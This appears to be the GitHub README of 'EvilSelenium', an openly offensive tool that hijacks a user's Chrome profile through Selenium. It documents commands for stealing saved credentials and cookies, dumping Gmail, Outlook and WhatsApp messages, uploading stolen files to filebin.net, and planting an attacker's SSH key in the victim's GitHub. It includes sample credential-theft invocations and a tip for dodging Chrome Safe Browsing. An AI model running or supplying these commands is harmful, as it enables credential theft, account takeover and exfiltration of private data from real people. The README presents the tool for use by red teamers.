 # EvilSelenium
EvilSelenium is a new project that weaponizes <a href="https://www.selenium.dev/">Selenium</a> to abuse Chrome. The current features right now are:

* Steal stored credentials (via autofill)
* Steal cookies
* Take screenshots of websites
* Dump Gmail/O365 emails
* Dump WhatsApp messages
* Download & exfiltrate files
* Add SSH keys to GitHub

Or extend the existing functionality to suit your needs (e.g. Download files from the user's GDrive/OneDrive).

# Note

1. When this tool is run it will terminate any existing Chrome processes in order to be able to run with the user's Chrome profile which has the passwords & active sessions.

2. I built this tool in about a week & I didn't run as many tests as I should therefore there may be some bugs.

3. Selenium modules are not always stable. Due to the constant changes in websites some modules may occasionally break. I'll try my best to maintain the existing modules to ensure they work as intended but you've been warned.

# Usage
	
	EvilSelenium.exe /?

    /help - Show this help menu.

    SETUP:
    /install - Install chromedriver & Selenium webdriver. Run this once.

    GLOBAL: (accepted with every command)
    /custom_browser [appdata_local_routing] - Use custom browser, Input should be the routing inside %appdatalocal% dir (e.g. "Microsoft\Edge")

    RECON:
    /enumsavedsites [out_path] - Check which websites have passwords saved via screenshot(s).
    /screenshot [website] [out_path] - Screenshot a given webpage.

    CREDENTIALS:
    /autorun - Extract saved credentials from common websites.
    /dynamicid [login_page] [username_id] [password_id] - Extract saved credentials from a website, providing the username field ID & password field ID.
    /dynamicname [login_page] [username_name] [password_name] - Extract saved credentials from a website, providing the username field name value & password name value.
    /dynamicname2 [login_page] [username_position] [password_position] [username_name] [password_name] - Extract saved credentials from a website, providing the username field name value, password name value and their positions.

    COOKIES:
    /cookies [website] - Grabs cookies for a given website.

    MODULES:
    /download [file_url] [seconds] - Downloads a file and specify time to wait for download to finish. File extensions should not be executable.
    /exfil [local_file] [seconds] - Uploads a file on filebin.net and outputs the download link.
    /gmail [out_path] [num_of_emails] - Fetches emails from mail.google.com if user is authenticated. Max 50 emails.
    /outlook [out_path] [num_of_emails] - Fetches emails from Outlook if user is authenticated.
    /o365 [out_path] [num_of_emails] - Fetches emails from O365 Outlook if user is authenticated.
    /github [key] - Add your SSH key to Github if user is authenticated.
    /whatsapp [out_path] - Fetches Whatsapp messages if user is authenticated (BETA).

# Setup

The `/install` command will download the Chrome Driver and Selenium WebDriver which are the necessary requirements. EvilSelenium will work on Chrome versions 98-90.

**Tested on Windows 10, Chrome v97 & v90.**

	EvilSelenium.exe /install

# Global configuration
By default EvilSelenium will try to use Google Chrome's User Data folder to retrieve data, but other [Chromium](https://en.wikipedia.org/wiki/Chromium_(web_browser)) based browsers are supported as well.
In order to use different Chrome based browser you should add the `/custom_browser` following the browser routing in the `%localappdata%` directory.
Here are examples for a few common browsers (should be added to any CLI command):
1. *Brave* - `/custom_browser BraveSoftware\Brave-Browser`
2. *Microsoft Edge* - `/custom_browser Microsoft\Edge`
3. *Vivaldi* - `/custom_browser Vivaldi`

# Recon Module

`/enumsavedsites` - This will take screenshots of chrome://settings/passwords

`/screenshot` - Screenshot any website. If the user is authenticated to the website then you get authenticated screenshots :).

# Credentials Module

**IMPORTANT:** The credentials module will **DELETE COOKIES** in order to steal credentials from autofill. Ideally, you should use the credentials module at the end if you want to export cookies.

`/autorun` - Prebuilt templates for common websites. I'll continue to add more.

`/dynamicid` - Provide the login URL along with the username input field's ID and password field's ID. This is equivalent to document.getElementById().

`/dynamicname` - If the fields don't have IDs, provide the fields' name values. It will pick the first index of the name values. This is equivalent to document.getElementsByName()[0].value.

`/dynamicname2` - Provide the fields' name values along with their index position. This is equivalent to document.getElementsByName()[x].value where x is the provided position.

# Cookies Module

`/cookies` - Dumps cookies from the specified website.

# Misc Modules

These are additional modules I built to demonstrate what sort of actions you can do with Selenium.

`/download` - Download a file & specify time to wait for the download. A non-executable file extension should be appended to the file before downloading to avoid Chrome's Safebrowsing prompt.

`/exfil` - Uploads a file on filebin.net & specify the time to wait for the upload to complete. Once the upload is completed the file's download link is written.

`/gmail` - Fetches emails from mail.google.com if user is authenticated. Max 50 emails.

`/outlook` - Fetches emails from Outlook if user is authenticated.

`/o365` - Fetches emails from O365 Outlook if user is authenticated.

`/github` - Add your SSH key to Github if user is authenticated.

`/whatsapp` - Fetches Whatsapp messages if user is authenticated (BETA).

# Sample Commands
	
	EvilSelenium.exe /screenshot https://mail.google.com c:\users\mr.d0x\downloads
	
	EvilSelenium.exe /dynamicid https://www.hybrid-analysis.com/login login_email login_password
	
	EvilSelenium.exe /dynamicname https://linkedin.com session_key session_password

# Demo

![Example](https://github.com/mrd0x/EvilSelenium/blob/main/demo-1.png)

# Support

* Follow me on twitter <a href="https://twitter.com/mrd0x">@mrd0x</a>
* BTC Wallet: 38ApE9ciNHiXzEaQExLXdwM6TrEpz2wCUi (for coffee obviously)
